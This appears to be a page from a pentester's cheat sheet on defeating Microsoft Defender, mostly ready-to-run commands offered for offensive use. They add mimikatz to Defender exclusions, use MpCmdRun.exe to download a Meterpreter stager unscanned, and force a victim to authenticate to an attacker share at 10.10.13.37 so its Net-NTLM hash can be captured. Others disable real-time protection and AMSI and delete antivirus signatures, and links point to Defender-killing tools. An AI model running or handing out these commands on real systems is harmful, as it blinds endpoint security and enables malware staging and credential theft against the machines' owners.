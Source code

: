 ```yaml
---
description: Microsoft Defender
---
```


# Defender

Add path to exclusions:

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```
PS > .\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Disable Defender

- [https://github.com/mandiant/commando-vm#pre-install-procedures](https://github.com/mandiant/commando-vm#pre-install-procedures)
- [https://github.com/swagkarna/Defeat-Defender-V1.2](https://github.com/swagkarna/Defeat-Defender-V1.2)
- [https://github.com/APTortellini/DefenderSwitch](https://github.com/APTortellini/DefenderSwitch)
- [https://github.com/dosxuz/DefenderStop](https://github.com/dosxuz/DefenderStop)
- [https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6](https://gist.github.com/fiercebrute/46e0636c0eaf72dcd3df4e280b6792d6)
- [http://www.wxxy-sec.com/?p=154](http://www.wxxy-sec.com/?p=154)

- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Real-time Protection* > *Turn off real-time protection* > *Enabled* ✔
- gpedit.msc > *Administrative Templates* > *Windows Components* > *Microsoft Defender Antivirus* > *Turn off Microsoft Defender Antivirus* > *Enabled* ✔

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > cd "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0"
PS > .\MpCmdRun.exe -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```




## Lower Token Integrity

- [https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- [https://github.com/plackyhacker/SandboxDefender](https://github.com/plackyhacker/SandboxDefender)
- [https://github.com/pwn1sher/KillDefender](https://github.com/pwn1sher/KillDefender)
- [https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
